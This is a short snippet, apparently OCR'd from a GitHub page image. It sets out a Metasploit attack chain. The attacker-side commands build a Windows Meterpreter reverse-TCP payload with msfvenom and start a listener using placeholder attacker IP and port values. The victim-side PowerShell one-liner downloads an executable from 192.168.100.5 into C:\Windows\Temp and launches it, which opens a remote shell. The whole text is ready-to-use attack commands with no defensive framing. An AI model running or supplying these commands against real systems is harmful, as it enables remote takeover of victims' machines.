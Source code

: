 # On attacker
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > payload1.exe
msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ATTACKER_IP>; set LPORT <ATTACKER_PORT>; exploit'

# On victim
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.100.5:80/<FILENAME>', 'C:\Windows\Temp\<FILENAME>'); Start-Process 'C:\Windows\Temp\<FILENAME>'"

